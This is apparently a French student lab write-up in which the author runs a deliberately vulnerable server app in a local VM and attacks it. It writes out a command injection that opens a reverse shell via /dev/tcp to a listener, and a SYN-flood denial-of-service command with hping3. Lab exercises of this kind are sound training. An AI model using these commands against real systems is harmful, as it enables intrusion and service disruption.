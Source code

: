 # I. Partie 1 : Host & Hack
## Sommaire

- [I. Partie 1 : Host \& Hack](#i-partie-1--host--hack)
  - [Sommaire](#sommaire)
  - [1. A vos marques](#1-a-vos-marques)
  - [2. Prêts](#2-prêts)
  - [3. Hackez](#3-hackez)

## 1. A vos marques

🌞 **Télécharger l'application depuis votre VM**

> je l'ai d'abord téléchargé sur mon ordi et fait un :
```bash
scp C:\Users\cleme\Downloads\efrei_server dums@192.168.56.101:/home/dums
```

🌞 **Lancer l'application `efrei_server`**

```bash
export LISTEN_ADDRESS=192.168.56.101
./efrei_server
```

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**
```bash
tcp        LISTEN      0           100                                          192.168.56.101:8888                       0.0.0.0:*         users:(("main.bin",pid=1726,fd=6))
```

## 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

```bash
ncat 192.168.56.101 8888
```

## 3. Hackez

🌞 **Euh bah... hackez l'application !**

**Sur la VM :**
```bash
./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
LS command called by ('192.168.56.1', 63578)
```
**Sur le terminal qui demande le reverse shell :**
```bash
PS C:\Windows\System32> ncat 192.168.56.101 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) : 4
Ex├®cuter la commande ls vers le dossier : /home/dums ; sh -i >& /dev/tcp/192.168.56.1/33127 0>&1
```

**Sur le terminal d'écoute :**
```bash
PS C:\Windows\System32> ncat -l 33127
sh-5.1$
```

🌟 **BONUS : DOS l'application**

```bash
hping3 --flood -S 192.168.56.101 -p 8888
```